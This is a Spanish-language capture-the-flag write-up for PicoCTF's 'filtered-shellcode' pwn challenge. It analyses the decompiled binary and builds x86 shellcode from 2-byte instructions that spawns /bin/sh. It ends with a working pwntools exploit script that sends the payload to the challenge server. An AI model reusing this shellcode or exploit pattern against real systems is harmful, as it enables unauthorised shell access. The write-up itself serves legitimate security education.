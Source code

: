 #pwn #writeup 

Este ejercicio era más complejo y la resolución es bastante interesante por lo que he decidido dedicarle este writeup. Esta es una versión traducida al español y a mis palabras :) de [este articulo](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md).

# Reconocimiento

Nos dan únicamente un ejecutable *fun*, que si comprobamos con [[checksec]], tiene todas las protecciones desactivadas. Si lo descompilamos con [[ghidra]], veremos que se nos pide un código a ejecutar de un máximo de 1000 caracteres que se pasa a la función *`execute`*:

```c
void execute(int shellcode,int len)

{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Básicamente, el código se copia en *`auStack44`*, pero cada dos bytes introduce otros dos bytes con el valor `0x90` (el código de los *`nop`*). En resumen, corta el código en series de 2 bytes, por lo que tenemos que construir un *shellcode* con instrucciones de 2 bytes.

## Construyendo un shellcode

El objetivo será llamar a `execve("/bin/sh", NULL, NULL)`. Para ello debemos hacer varias cosas:

- Poner la string `/bin/sh` en el stack, para que *esp* apunte a ella.
- Poner los argumentos en los registros correspondientes (en este caso el puntero a `/bin/sh` en *ebx*, y poner *ecx* y *edx* a 0).
- Llamar a la *syscall* correspondiente a `excve`.
- Salir del programa.

Normalmente rellenariamos los registros con `mov ebx, 0`, sin embargo, esto genera *null bytes* al final, lo que puede dar problemas. Para ello utilizaremos `xor ebx, ebx` para ponerlos a cero. Además, para asignar valores, podemos evitar meter *null bytes* rellenando *sub-registros*. Por ejemplo para introducir `11` en *eax* (el código de `excve`), podemos usar `xor eax, eax; mov al, 11`.

De esta forma el código sería algo como:

```asm
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

De esta forma casi todas las instrucciones serían de 2 bytes de longitud, el único problema es introducir `/bin/sh` en el stack. Para ello hay una solución simple, construirlo en registros y pushearlo al stack.

Concretamente, con *eax* inicializado a 0, ponemos en *a1* el primer byte. Después multiplicamos *eax* por 16 y luego otra vez por 16, haciendo que el primer valor esté ahora en el segundo byte de *eax*. Además añadimos *nop*s cuando haya instrucciones de 1 byte para que todas midan 2 bytes.

El código en [[python]] quedaría así:

```python
from pwn import *

shellcode = """
/* Set registers to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* Build the stack with //bin/sh */
mov bl, 16 /* This register will hold the value 16 for shifting bytes */
/* First null bytes */
push ecx
nop
/* Then n/sh (ie bytes 110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* Then //bi (ie bytes 47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit */
mov al,1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

with open("out", "wb") as f:
    f.write(asm(shellcode))

sh = remote("mercury.picoctf.net", 37853)
sh.recvuntil(b"run:")
sh.sendline(asm(shellcode))
sh.interactive()
```
